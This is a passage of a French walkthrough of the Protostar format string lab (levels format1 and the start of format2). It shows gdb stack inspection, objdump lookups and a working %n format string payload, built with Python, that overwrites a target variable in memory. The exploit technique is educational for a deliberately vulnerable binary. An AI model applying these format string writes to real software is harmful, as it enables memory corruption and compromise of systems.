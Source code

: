 ```
(gdb) b *0x0804841b
Breakpoint 1 at 0x804841b: file format1/format1.c, line 15.
(gdb) r `python -c 'import struct; print "AAAA%142$08x"'`
Starting program: /opt/protostar/bin/format1 `python -c 'import struct; print "AAAA%142$08x"'`

Breakpoint 1, 0x0804841b in vuln (string=0x2 <Address 0x2 out of bounds>) at format1/format1.c:15
15      format1/format1.c: No such file or directory.
        in format1/format1.c
(gdb) x/64wx $esp
0xbffff77c:     0x08048435      0xbffff97c      0xb7ff1040      0x0804845b
0xbffff78c:     0xb7fd7ff4      0x08048450      0x00000000      0xbffff818
--- snip ---
0xbffff96c:     0x2f726174      0x2f6e6962      0x6d726f66      0x00317461
(gdb) 
0xbffff97c:     0x41414141      0x32343125      0x78383024      0x45535500
```

Effectivement il faut 512 octets avant d'attendre le début de notre chaine soit 128 dwords.

Il faut jouer un peu avec le padding mais en me servant du format `%<position>$08x` je retrouve bien mes données en 129ème position sur la stack :

```shellsession
user@protostar:/opt/protostar/bin$ ./format1 `python -c 'import struct; print "pAAAAp%129$08x"'`
pAAAAp41414141
```

On voit bien le `41414141` correspondant à nos `AAAA` en hexadécimal.

L'adresse de la variable `target` se retrouve dans l'output de `objdump` :

```shellsession
user@protostar:/opt/protostar/bin$ objdump -t format1 | grep target
08049638 g     O .bss   00000004              target
```

Le code attend juste que la variable soit modifiée (différente de zéro). On doit utiliser le format `%n` qui indique à `printf` d'écrire en mémoire un entier correspondant au nombre de caractères qu'il a affiché. Associé à l'indicateur de position on lui dit d'écrire à l'adresse contenue à la 129ème position sur la stack (adresse sous notre contrôle puisqu'on la reflétée en hexa plus tôt).

```shellsession
user@protostar:/opt/protostar/bin$ ./format1 `python -c 'import struct; print "p" + struct.pack("<I", 0x08049638) + "p%129$08n"'`
p8pyou have modified the target :)
```

Bingo ! On a du écrire 6 octets dans la variable, ce qui suffit à passer l'épreuve.

## Level 2

Toujours une variable à écraser mais cette fois une valeur spécifique est attendue.

```
user@protostar:/opt/protostar/bin$ objdump -t format2 | grep target
080496e4 g     O .bss   00000004              target
```
